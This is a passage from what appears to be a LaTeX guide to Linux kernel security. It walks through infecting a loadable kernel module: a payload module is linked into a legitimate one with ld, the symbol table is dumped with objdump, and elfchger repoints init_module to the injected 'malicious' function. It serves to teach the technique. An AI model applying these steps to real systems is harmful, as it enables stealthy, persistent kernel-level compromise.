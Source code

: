 \begin{enumerate}
	\item \textbf{Merge modules : } ld assembles modules to produce a final one as shown in \textbf{Figure \ref{Meging modules using ld}}.
    		\begin{figure}[H]
					\centering
        			\includegraphics[scale=0.45]{img/solution/combining-modules-linux.png}
        			\caption{Meging modules using ld}
        			\label{Meging modules using ld}
   			 \end{figure}	
	
	kernel-module-infected.ko is merly a combination of kernel-module-safe.ko and kernel-module-to-inject.ko
	
	\item \textbf{Analyse the resulting module :} We can dump module's symbol table of as follow :
\begin{lstlisting}[style=BashInputStyle]
$ objdump -t kernel-module-infected.ko

kernel-module-infected.ko:     format de fichier elf32-i386

SYMBOL TABLE:
............
00000000 l     F .init.text	00000014 mon_module_init # init function of kernel-module-safe.ko
00000000 l     F .exit.text	00000012 mon_module_cleanup
............
............
00000014 l     F .init.text	00000014 fak_module_init # init function of kernel-module-to-inject.ko
............
............
00000000 g     F .exit.text	00000012 cleanup_module
00000000 g     F .init.text	00000014 init_module
00000000         *UND*	00000000 printk
\end{lstlisting}

The reader can notice that \og fak\_module\_init \fg has been linked correctly.\\
All what is left is forcing \og init\_module \fg to point to our malicious symbol \og fak\_module\_init \fg (\emph{at location 00000014}).

\item \textbf{Make init\_module as an alias of fak\_module\_evil : } init\_module should point to our malicious function. One may do it by tampering the sections of kernel-module-infected.ko but a knwoledge of ELF file format is required. A program called elfchger can edit ELF files quickly and easily ({\color{blue}\url{https://github.com/jugurthab/Linux_kernel_debug/blob/master/debug-examples/Chap6-kernel-security/kernel/module-tampering/elfchger.c}}) as shown below :
\begin{lstlisting}[style=BashInputStyle]
./elfchger -s init_module -v 00000014 kernel-module-infected.ko
\end{lstlisting}


\end{enumerate}
